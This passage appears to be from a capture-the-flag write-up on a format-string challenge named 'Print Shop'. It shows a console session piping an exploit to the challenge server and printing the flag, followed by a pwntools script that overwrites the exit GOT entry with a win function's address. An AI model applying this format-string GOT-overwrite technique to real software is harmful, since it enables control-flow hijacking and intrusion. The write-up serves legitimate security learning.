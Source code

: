 
Run it against their server and wait for a little over 4 million characters to be printed until we get our flag

> I know there are more efficient ways than printing 4 million characters, but what matters is it works.

```console
$ python exploit.py | nc chal.pctf.competitivecyber.club 7997
Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!




...


                                                       0x7f3fed23b643--------------------------------------------------------------------------`@@PCTF{b4by_f0rm4t_wr1t3_6344792}
```

I'm not going to explain how I got to this solution because I myself would not recommend it. Instead use the pwntools method

> If you are still interested in this solution, checkout [this video](https://www.youtube.com/watch?v=_lO_rwaK_pY) 
{: .prompt-info}

#### pwntools

During the challenge I didn't know about this method, but I'm sharing it now because it is far better.

```python
from pwn import *

p = process('./printshop')
exe = ELF('./printshop')
context.binary = exe


p.sendline(fmtstr_payload(
    6,                          # Our input starts leaking from 6th argument
    {
        exe.got.exit :          # Where to write
        exe.symbols.win         # What to write
    }
))

print(p.clean())

p.close()
```
